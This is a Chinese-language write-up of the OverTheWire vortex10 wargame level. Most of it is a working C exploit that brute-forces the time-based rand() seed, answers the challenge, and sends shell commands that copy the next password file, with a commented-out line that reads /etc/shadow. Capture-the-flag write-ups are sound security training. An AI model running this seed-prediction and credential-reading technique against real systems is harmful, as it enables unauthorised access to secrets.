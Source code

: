 ```yaml
---
title: vortex10
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - linux
---
```

由于`time(0)`的值的大致范围是知道的，关键就是v12的值。这里`v12>>31`会得到0xffffffff或是0x0，接下来的`>>24`就会得到0xff或是0x0。于是最终范围在128-256=-128与128+256=384之间，可以穷举出来。

另一方面，我们要读他的数，并反馈。与vortex0类似，我还是不知道怎么用shell, fifo等完成。于是在c程序里fork，并用`pipe`和`dup2`等来进行父进程、子进程的数据传输。

但最后的问题是，得到shell之后如何与其交互？试了好几种方法都不行。最后在我的机子上可以再将命令从父程序通过pipe送到子程序，再输出结果。不过在ssh那里想要cat文件内容不成功，最后只好install把密码文件复制一份 

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    /* parent --(fd1)--> child
     * child  --(fd2)--> parent */
    int fd1[2], fd2[2];
    pipe(fd1);
    pipe(fd2);

    pid_t pid = fork();
    if(pid==0) {
        close(fd1[1]);
        dup2(fd1[0], 0);
        close(fd2[0]);
        dup2(fd2[1], 1);
        execl("./vortex10", NULL);
    }

    time_t nowT = time(0);

    close(fd1[0]);
    close(fd2[1]);

    char buf[256];
    unsigned int input[20];
    
    ssize_t numRead = 0;
    while(numRead < 202) {
        numRead += read(fd2[0], buf+numRead, sizeof buf);
    }

    fprintf(stderr, "%d bytes read\n", numRead);
    int match = sscanf(buf, "[ %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x,]",
            input+0, input+1, input+2, input+3, input+4, input+5, input+6, input+7, input+8, 
            input+9, input+10, input+11, input+12, input+13, input+14, input+15, input+16, input+17, 
            input+18, input+19);

    if(match != 20) {
        fprintf(stderr, "read error\n");
        fprintf(stderr, "%s\n", buf);
        return 1;
    }

    int i, j, k;

    time_t now;
    for(k=0; k<4; ++k) {
        now = nowT - k; 
        for(i=-128; i<384; ++i) {
            srand(now+i);
            for(j=0; j<i; ++j)
                rand();
            for(j=0; j<20; ++j) {
                if(rand() != input[j])
                    break;
            }
            if(j == 20) {
                j += now;
                fprintf(stderr, "hit, time is %d, i is %d\n", now, i);
                unsigned int ans = now+i;
                write(fd1[1], &ans, 4);
                char *cmd = "install -m444 /etc/vortex_pass/vortex11 /tmp/nabla\n";
                //char *cmd = "cat /etc/shadow\n";
                write(fd1[1], cmd, strlen(cmd));
                numRead = read(fd2[0], buf, sizeof(buf));
                buf[numRead] = 0;
                fprintf(stderr, "%s\n", buf);
                break;
            }
        }
    }
    fprintf(stderr, "end\n");
    //dup2(0, fd1[1]);
    //dup2(1, fd2[0]);

    int status;
    waitpid(pid, &status, 0);
    return 0; 

}
{% endhighlight %}